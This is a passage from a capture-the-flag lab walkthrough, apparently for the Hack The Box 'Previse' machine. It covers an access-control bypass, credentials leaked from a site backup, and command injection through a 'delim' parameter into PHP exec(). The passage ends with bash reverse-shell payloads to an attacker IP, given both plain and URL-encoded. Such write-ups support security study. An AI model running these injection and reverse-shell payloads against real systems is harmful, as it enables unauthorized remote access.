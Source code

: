 By enumerating all pages i find accounts.php to creat account

**we bypassand  access the pages so create an account **
 
> user: H3X0S3
> password: passH3X0S3

After creating H3X0S3 account i can explore the admin area of the application and download SITEBACKUP.zip file.


**Extratct SITEBACKUP.zip**

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/hackthebox/SITEBACKUP1.png)


there is config.php file 

```` php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>

````

it has credentials for a MySQL server. we need ssh credentials.
let's review log.php file content. 

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/hackthebox/logs.png)


logs.php contained function  called exec(). we can get shell from this function as it allow us to excute php command on the server.


----

Try to download out.log and there we can exploit exe()

# Exec() Exploit

bash -c 'exec bash -i &>/dev/tcp/10.10.16.9/4444 <&1'

delim=comma&/bin/bash -c 'bash -i > /dev/tcp/10.10.16.9/4444 0>&1'

then encode as url 

delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.16.9/4444+0>%261'
